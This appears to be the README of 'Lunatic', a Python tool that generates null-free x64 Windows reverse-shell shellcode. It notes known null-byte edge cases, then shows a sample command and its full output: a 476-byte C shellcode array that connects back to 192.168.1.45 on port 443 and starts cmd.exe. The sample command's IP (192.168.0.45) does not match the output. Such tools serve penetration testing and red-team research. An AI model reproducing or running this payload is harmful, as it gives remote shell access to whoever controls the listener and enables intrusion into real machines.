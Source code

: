 # Lunatic

## Background

## How to Use

## Known Issues
According to the supplied IP address, port, and shell type, Lunatic dynamically generates Null-Free shellcode. I have considered most of the common situations that could generate Null bytes, however, I am aware that if the supplied IP address contains `.255` and `.0` at the same time, for instance, if the IP address is `192.168.0.255`, generated shellcode will contain Null byte. This type of IP address could be rare in practice, and eliminating Null byte for all IP addresses would add more complexity. Therefore, I do not intend to improve this part recently.

Regarding the port value, in theory, any port will not generate Null byte. However, due to the implementation of eliminating Null-byte, port `65280` is not usable.

## Future Plan

```cmd
python Lunatic.py --ip 192.168.0.45 --port 443 --variable buffer --shell cmd --language c --execution false


██╗░░░░░██╗░░░██╗███╗░░██╗░█████╗░████████╗██╗░█████╗░
██║░░░░░██║░░░██║████╗░██║██╔══██╗╚══██╔══╝██║██╔══██╗
██║░░░░░██║░░░██║██╔██╗██║███████║░░░██║░░░██║██║░░╚═╝
██║░░░░░██║░░░██║██║╚████║██╔══██║░░░██║░░░██║██║░░██╗
███████╗╚██████╔╝██║░╚███║██║░░██║░░░██║░░░██║╚█████╔╝
╚══════╝░╚═════╝░╚═╝░░╚══╝╚═╝░░╚═╝░░░╚═╝░░░╚═╝░╚════╝░

Author: Senzee
Github Repository: https://github.com/senzee1984/Lunatic
Description: Dynamically generate PIC Null-Free Reverse Shell Shellcode
Attention: In rare cases (.255 and .0 co-exist), generated shellcode could contain NULL bytes, E.G. when IP is 192.168.0.255


[+]Shellcode Settings:
******** IP Address: 192.168.1.45
******** Listening Port: 443
******** Language of desired shellcode runner: c
******** Shellcode array variable name: buffer
******** Shell: cmd
******** Shellcode Execution: false


[+]Payload size: 476 bytes

[+]Shellcode format for C

unsigned char buffer[]={
0x48,0x31,0xd2,0x65,0x48,0x8b,0x42,0x60,0x48,0x8b,0x70,0x18,0x48,0x8b,0x76,0x20,0x4c,0x8b,0x0e,0x4d,
0x8b,0x09,0x4d,0x8b,0x49,0x20,0xeb,0x63,0x41,0x8b,0x49,0x3c,0x4d,0x31,0xff,0x41,0xb7,0x88,0x4d,0x01,
0xcf,0x49,0x01,0xcf,0x45,0x8b,0x3f,0x4d,0x01,0xcf,0x41,0x8b,0x4f,0x18,0x45,0x8b,0x77,0x20,0x4d,0x01,
0xce,0xe3,0x3f,0xff,0xc9,0x48,0x31,0xf6,0x41,0x8b,0x34,0x8e,0x4c,0x01,0xce,0x48,0x31,0xc0,0x48,0x31,
0xd2,0xfc,0xac,0x84,0xc0,0x74,0x07,0xc1,0xca,0x0d,0x01,0xc2,0xeb,0xf4,0x44,0x39,0xc2,0x75,0xda,0x45,
0x8b,0x57,0x24,0x4d,0x01,0xca,0x41,0x0f,0xb7,0x0c,0x4a,0x45,0x8b,0x5f,0x1c,0x4d,0x01,0xcb,0x41,0x8b,
0x04,0x8b,0x4c,0x01,0xc8,0xc3,0xc3,0x4c,0x89,0xcd,0x41,0xb8,0x8e,0x4e,0x0e,0xec,0xe8,0x8f,0xff,0xff,
0xff,0x49,0x89,0xc4,0x48,0x31,0xc0,0x66,0xb8,0x6c,0x6c,0x50,0x48,0xb8,0x57,0x53,0x32,0x5f,0x33,0x32,
0x2e,0x64,0x50,0x48,0x89,0xe1,0x48,0x83,0xec,0x20,0x4c,0x89,0xe0,0xff,0xd0,0x48,0x83,0xc4,0x20,0x49,
0x89,0xc6,0x49,0x89,0xc1,0x41,0xb8,0xcb,0xed,0xfc,0x3b,0x4c,0x89,0xcb,0xe8,0x55,0xff,0xff,0xff,0x48,
0x31,0xc9,0x66,0xb9,0x98,0x01,0x48,0x29,0xcc,0x48,0x8d,0x14,0x24,0x66,0xb9,0x02,0x02,0x48,0x83,0xec,
0x30,0xff,0xd0,0x48,0x83,0xc4,0x30,0x49,0x89,0xd9,0x41,0xb8,0xd9,0x09,0xf5,0xad,0xe8,0x2b,0xff,0xff,
0xff,0x48,0x83,0xec,0x30,0x48,0x31,0xc9,0xb1,0x02,0x48,0x31,0xd2,0xb2,0x01,0x4d,0x31,0xc0,0x41,0xb0,
0x06,0x4d,0x31,0xc9,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,0x4c,0x24,0x28,0xff,0xd0,0x49,0x89,0xc4,0x48,
0x83,0xc4,0x30,0x49,0x89,0xd9,0x41,0xb8,0x0c,0xba,0x2d,0xb3,0xe8,0xf3,0xfe,0xff,0xff,0x48,0x83,0xec,
0x20,0x4c,0x89,0xe1,0x48,0x31,0xd2,0xb2,0x02,0x48,0x89,0x14,0x24,0x48,0x31,0xd2,0x66,0xba,0x01,0xbb,
0x48,0x89,0x54,0x24,0x02,0xba,0xc0,0xa8,0x01,0x2d,0x48,0x89,0x54,0x24,0x04,0x48,0x8d,0x14,0x24,0x4d,
0x31,0xc0,0x41,0xb0,0x16,0x4d,0x31,0xc9,0x48,0x83,0xec,0x38,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,0x4c,
0x24,0x28,0x4c,0x89,0x4c,0x24,0x30,0xff,0xd0,0x48,0x83,0xc4,0x38,0x49,0x89,0xe9,0x41,0xb8,0x72,0xfe,
0xb3,0x16,0xe8,0x99,0xfe,0xff,0xff,0x48,0xba,0x9c,0x92,0x9b,0xd1,0x9a,0x87,0x9a,0xff,0x48,0xf7,0xd2,
0x52,0x48,0x89,0xe2,0x41,0x54,0x41,0x54,0x41,0x54,0x48,0x31,0xc9,0x66,0x51,0x51,0x51,0xb1,0xff,0x66,
0xff,0xc1,0x66,0x51,0x48,0x31,0xc9,0x66,0x51,0x66,0x51,0x51,0x51,0x51,0x51,0x51,0x51,0xb1,0x68,0x51,
0x48,0x89,0xe7,0x48,0x89,0xe1,0x48,0x83,0xe9,0x20,0x51,0x57,0x48,0x31,0xc9,0x51,0x51,0x51,0x48,0xff,
0xc1,0x51,0xfe,0xc9,0x51,0x51,0x51,0x51,0x49,0x89,0xc8,0x49,0x89,0xc9,0xff,0xd0};
```

